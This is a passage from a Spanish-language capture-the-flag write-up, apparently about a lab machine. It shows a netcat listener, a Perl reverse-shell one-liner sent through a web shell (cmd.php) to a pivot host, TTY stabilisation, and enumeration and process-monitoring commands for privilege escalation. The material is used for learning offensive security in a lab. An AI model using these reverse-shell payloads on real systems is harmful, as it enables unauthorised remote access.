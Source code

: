 1. desde nuestra maquina no ponemos en escucha por el puerto 2222

    ````bash
    nc -nlvp 2222
    ```

1. desde la web entablamos una reverse shell, en este caso no a nuestra maquina, pero a la maquina puente

    ```bash
    http://localhost/8924d0659008565c554f8128cd11fda4/cmd.php?cmd=perl -e 'use Socket;$i="172.19.0.4";$p=1111;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    ```

Hemos ganado accesso al contenedor www.

#### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

miramos un poco la maquina y vemos que el user.txt esta en el directorio del usuario somaro pero que no tenemos derechos para leer lo. 
Tenemos que escalar privilegios.

```bash
whoami
id
hostname
hostname -I
ifconfig
ip a
cd /
find \-perm -4000 2>/dev/null
```

No vemos nada interessante. Miramos si hay tareas que se ejecutan a intervalo regulares de tiempo. 
Para esto nos creamos el famoso procmon.sh

```bash
#!/bin/bash

old_process=$(ps -eo command)

while true; do
    new_process=$(ps -eo command)
    diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -v -E "procmon|command"
    old_process=$new_process
done
```
